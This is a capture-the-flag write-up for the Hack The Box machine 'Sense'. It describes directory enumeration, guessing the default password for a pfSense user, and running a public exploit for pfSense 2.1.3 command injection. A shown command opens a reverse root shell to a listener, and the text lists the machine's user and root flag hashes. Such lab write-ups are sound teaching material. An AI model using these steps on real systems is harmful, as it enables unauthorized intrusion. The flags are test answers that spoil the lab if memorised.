 ### 10.10.10.60 - Sense

1. Initial nmap scans of the device revealed ports 80 and 443 open, although port 80 seems to just forward to 443.  The site on port 443 is a pfsense login page.  I performed a gobuster scan of the site using the list /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt.  I discovered the following documents:

   1. https://10.10.10.60/changelog.txt - This remarked that 1 of 3 vulnerabilities was left unpatched.
   2. https://10.10.10.60/system-users.txt - ticket to create user `rohit` with 'company defaults' for password, which a guess found was `pfsense`

2. Logging into the GUI showed the version of pfsense was 2.1.3.  This version of pfsense is vulnerable to a command injection attack (CVE CVE-2014-4688).  

3. I started a reverse shell and used the exploit code here to exploit this:  https://www.exploit-db.com/exploits/43560 and get a root shell:

   ```bash
   python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.29 --lport 8001 --username rohit --password pfsense
   ```
   

![image-20201026171359808](.Report.assets/image-20201026171359808.png)

4. From this shell, I was able to view the contents of the user.txt and root.txt files:
   ![image-20201026171456183](.Report.assets/image-20201026171456183.png)
   user.txt: 8721327cc232073b40d27d9c17e7348b
   root.txt: d08c32a5d4f8c8b10e76eb51a69f1a86
